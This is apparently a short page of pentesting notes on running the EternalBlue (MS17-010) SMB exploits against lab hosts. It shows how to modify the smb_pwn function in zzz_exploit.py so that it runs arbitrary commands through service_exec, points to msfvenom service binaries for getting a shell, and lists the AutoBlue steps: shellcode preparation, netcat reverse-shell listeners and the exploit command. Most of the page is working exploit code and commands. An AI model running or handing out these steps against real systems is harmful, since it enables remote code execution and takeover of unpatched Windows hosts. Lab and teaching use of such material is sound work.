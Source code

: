 >> _zzz Exploit_

* __Default_Conf__
````python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()

	print('creating file c:\\pwned.txt on the target')  <--- This obviously we do not want to do
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)

    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt') <---
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
````

* __MOD_Conf__

````python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()

	#print('creating file c:\\pwned.txt on the target')  <--- Comment this
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)

    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt') <--- Here define what you want to do
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
````

````
python3 checker.py 10.10.10.x

python zzz_exploit.py 10.10.10.x <pipe>
````

>> _AutoBlue_
````
apt-get install rlwrap

cd shellcode

./shell_prep.sh

rlwrap nc -nlvp port

rlwrap nc -nlvp port

python3 eternalblue_exploit7.py 10.10.10.x <shellcode_file>
````
